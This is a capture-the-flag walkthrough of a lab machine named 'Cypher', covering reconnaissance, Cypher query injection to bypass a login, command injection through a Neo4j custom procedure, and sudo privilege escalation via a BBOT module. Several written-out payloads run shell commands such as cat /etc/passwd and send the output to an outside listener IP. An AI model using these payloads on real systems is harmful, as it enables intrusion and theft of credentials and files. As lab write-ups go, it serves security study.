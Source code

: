 # Cypher

### Machine Information

![machine info](./images/Cypher.png)

Target: **10.x.x.x**

## Reconnaissance

```bash
$ nmap -sV -sC 10.x.x.x
```

![nmap](./images/nmap.png)

* 22/tcp, OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
* 80/tcp, HTTP nginx 1.24.0 (Ubuntu)
  - Redirects to cypher.htb

First, it is necessary to update the local DNS in `/etc/hosts` by adding a new record:

```bash
$ sudo echo '10.x.x.x  cypher.htb' >> /etc/hosts
```

Visiting `http://cypher.htb`, the following result is obtained:

![cypher page](./images/cypher_page.png)

No relevant information is found by visiting the "visible" paths, except for the presence of a `Login` form.

![cypher login page](./images/cypher_login_page.png)

A Gobuster instance is launched to enumerate directories.

```bash
$ gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![gobuster](./images/gobuster.png)

The scan detected the presence of the `testing/` directory:

![testing dir](./images/testing.png)

Download it and analyze:

![apoc tree](./images/apoc_tree.png)

* [Neo4j](https://neo4j.com) is a Graph Database Management System (GDBMS).

A Java class decompiler was used to inspect the `.class` files.

For example, in this case, [Decompiler](https://www.decompiler.com/) was used.

![hello procedure](./images/hello_function.png)

![custom procedure](./images/custom_function.png)

It appears that `Neo4j` provides developers with the ability to perform graph queries using the declarative language `Cypher`.

* [Cypher](https://neo4j.com/product/cypher-graph-query-language/) is a declarative graph query language.

Additionally, from the [cheat sheet](https://neo4j.com/docs/cypher-cheat-sheet/5/all/), it was found that procedures can be invoked using the `CALL` clause.

> The CALL clause is used to call a procedure deployed in the database.

These two functions appear to be procedures that can be called.

The most interesting one seems to be `getUrlStatusCode`, as it executes the `curl` command, accepting a URL parameter passed in the query.

**IDEA**: Cypher query injection.

## Login bypass

The login form is exploited.

![login injection 1](./images/login_injection_1.png)

![login injection 2](./images/login_injection_2.png)

Now, an attempt is made to call the `getUrlStatusCode` procedure to retrieve information about the username and password.

![login injection 3](./images/login_injection_3.png)

![uname](./images/uname.png)

The same approach is used to capture the hashed password. The following was obtained:

- graphasm:9f54ca4c130be6d529a56dee59dc2b2090e43acf

It is an SHA1 hash, as indicated by the query being attacked.

An attempt is made to crack the hash, but without success. The next idea is to modify the behavior.

![db hash](./images/hash.png)

Since the hash value returned by the query is used, it is possible to return a custom hash value to bypass authentication.

![hash payload](./images/hash%20payload.png)

![logged](./images/logged.png)

Successfully logged in as `graphasm`!

![demo page](./images/demo.png)

## Query Injection

A Cypher query injection is attempted to obtain relevant system information.

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls| tr " " "_" | tr "\n" "_"`;') yield statusCode
```

![ls](./images/ls.png)

![ls result](./images/ls_res.png)

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /etc/passwd | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

![/etc/passwd](./images/etc_passwd.png)

![/etc/passwd result](./images/etc_passwd_res.png)

![/etc/passwd result](./images/etc_passwd_clean.png)

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`whoami | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

- neo4j

It is possible to navigate `/home/graphasm/`:

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`ls /home/graphasm/ | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

Located files:

- user.txt
- bbot_preset.yml

However, `user.txt` is not readable, while `bbot_preset.yml` contains the following content:

```Cypher
CALL custom.getUrlStatusCode('http://10.10.16.41:8000?q=`cat /home/graphasm/bbot_preset.yml | tr " " "_" | tr "\n" "_"`;') yield statusCode
```

![bbot_preset.yml](./images/bbot_preset_retrive.png)

- neo4j:cU4btyib.20x**********hK

An SSH connection is attempted with `graphasm` using the discovered password:

![graphasm ssh access](./images/graphasm_ssh.png)

Successfully accessed with:

- graphasm:cU4btyib.20x**********hK

## Privilege Escalation

![sudo -l](./images/sudo_l.png)

[bbot](https://www.blacklanternsecurity.com/bbot/Stable/) is a recursive internet scanner for hackers.

It offers some functionalities, and during the study of the program, it was found that `custom modules` can be created.

![bbot docs](./images/bbot_dev_docs.png)

[How to write a BBOT Module](https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/)

**IDEA**: Exploit BBOT to read arbitrary sensitive data.

A module `mymodule.py` is built:

![ls root](./images/ls_root.png)
and a `my_preset.yml` is defined for this module:

![my_preset.yml file](./images/my_preset.png)

Launch BBOT with the custom preset and module:

```Bash
sudo /usr/local/bin/bbot -p ./my_preset.yml -m mymodule
```

![ls root result](./images/ls_root_res.png)

The command was successfully executed! The flag is retrieved.

![cat root](./images/cat_root.png)

![cat root result](./images/cat_root_res.png)

[+] Completed.

